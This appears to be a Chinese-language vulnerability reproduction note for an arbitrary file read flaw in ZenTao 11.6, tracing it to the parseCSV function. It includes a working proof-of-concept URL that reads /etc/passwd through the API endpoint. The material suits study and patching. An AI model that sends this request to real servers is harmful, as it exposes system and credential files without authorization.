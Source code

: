 ```yaml
---
title: "禅道 11.6 任意文件读取"
id: zhfly3363
---
```


# 禅道 11.6 任意文件读取

## 一、漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：https://www.zentao.net/
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

## 二、漏洞影响

禅道 11.6

禅道开源版 9版本

## 三、复现过程

漏洞代码位于module/file/model.php中的parseCSV函数

![image](../img/daa21c094fde628f660df508f07073d0.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

```
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```

![image](../img/74df1896af46127536969908bea5a09c.png)